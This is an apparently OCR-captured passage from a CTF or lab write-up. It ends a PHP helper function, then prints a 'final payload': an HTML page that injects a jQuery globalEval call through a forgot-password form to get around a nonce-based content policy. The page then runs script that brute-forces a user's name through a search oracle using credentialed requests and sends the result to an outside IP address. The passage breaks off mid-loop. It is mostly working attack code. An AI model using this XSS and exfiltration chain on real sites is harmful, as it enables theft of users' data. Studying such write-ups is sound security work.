                     $text = $arguments[0] ?? '';
                    return strtoupper($text);
                case 'upper':
                    $text = $arguments[0] ?? '';
                    return strtoupper($text);
                // Add more cases for other functions
                default:
                    // Optionally handle unknown functions
                    return '';
            }
        }
    }
    ```

Here is the final payload:

```php
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Document</title>
</head>
<body>
    <script>
        const target = "http://nginx";
        const sleep = (ms) => new Promise(resolve => setTimeout(resolve, ms));
        (async () => {
            const form = document.createElement("form");
            form.method = "POST";
            form.action= target+"/auth/forgot-password";
            form.target = "_blank"
            const input = document.createElement("input");
            input.name = "username";
            input.value = '"+$.globalEval(name, {nonce:"{{nonce}}"})+"';
            form.appendChild(input);
            document.body.appendChild(form);
            form.submit();
            await sleep(1000);
            const w2 = window.open(target+"/songs/search?filter[title]=", `(async function(){
    let base = "/songs/search?filter[user.full_name]=";
    let chrs = "abcdefghijklmnopqrstuvwxyz0123456789 ";
    let exfil = "http://103.185.44.93:8989?data=";
    let found = "";
    
    let lenn = 0;
    for(let x = 1; x < 100; x++) {
        let stop = false;
        await fetch(base + encodeURI('_'.repeat(x)), {credentials:'include'})
        .then(r=>r.text())
        .then(text=>{
            if (!text.includes("V9_ZpqfqHFI")) {
                lenn = x - 1;
                stop = true;
            }
        })
        
        if (stop) {break;}
    }
    
    for(let x = 0; x < lenn; x++) {
        for(let i = 0; i < chrs.length; i++) {
            await fetch(base + encodeURI(found + chrs[i] + '_'.repeat(lenn-(found+chrs[i]).length)), {credentials:'include'})
```